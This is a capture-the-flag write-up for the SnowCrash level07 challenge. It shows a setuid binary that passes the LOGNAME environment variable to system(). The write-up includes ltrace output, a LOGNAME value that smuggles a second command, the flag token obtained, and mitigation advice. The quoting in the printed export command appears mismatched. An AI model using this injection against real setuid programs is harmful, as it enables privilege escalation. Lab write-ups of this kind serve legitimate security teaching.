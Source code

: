 ## 📄 Description

In this level, we are presented with a **setuid binary** owned by the next level's user (**flag07**). Our objective is to exploit the binary to gain access to flag07's account and retrieve the flag by executing **getflag** command.

## 📦 Binary Info

Upon inspecting the home directory of level07, we find the following binary:

```
-rwsr-sr-x 1 flag07 level07 8604 Mar  5  2016 level07
```

#### 🔍 File Analysis

- Owner: `flag07`
- Group: `level07`
- Permissions: `-rwsr-sr-x`
  - The `s` in place of `x` indicates the setuid and setgid bits are set.
  - When executed, the binary runs with the privileges of its owner (`flag07`), not the user who executed it.

## 🔍 Runtime Behavior

To analyze what the binary does under the hood, we use `ltrace`:

```
ltrace ./level07
```

#### 🔎 Output Snippet:

```
getenv("LOGNAME") = "level07"
asprintf(...) = 18
system("/bin/echo level07 level07")
```

#### 💡 Vulnerability Discovered:

- The binary retrieves the value of the `LOGNAME` environment variable.
- It uses this value in a **shell command** via `system()`.
- This opens the door for **command injection**, as no sanitization is applied.

## ⚔️ Exploitation Strategy

To exploit this:

- We inject a shell command via the LOGNAME environment variable.

#### ✅ Exploit Execution:

```
export LOGNAME='"Hacked !"; getflag"
./level07
```

#### 📌 Result:

```
level07@SnowCrash:~$ ./level07
Hacked !
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## 🛡️ Mitigation Advice (Real Systems)

In a real-world context, this vulnerability would be classified as:

- Command Injection via unsanitized input (`CWE-78`).
- Exacerbated by unsafe use of `system()` with environment variables.

#### 🧼 Best Practices:

- Avoid `system()` entirely for any user-influenced data.
- Use safer alternatives like `execve()` with sanitized arguments.
- Sanitize all environment variable usage or reset the environment.
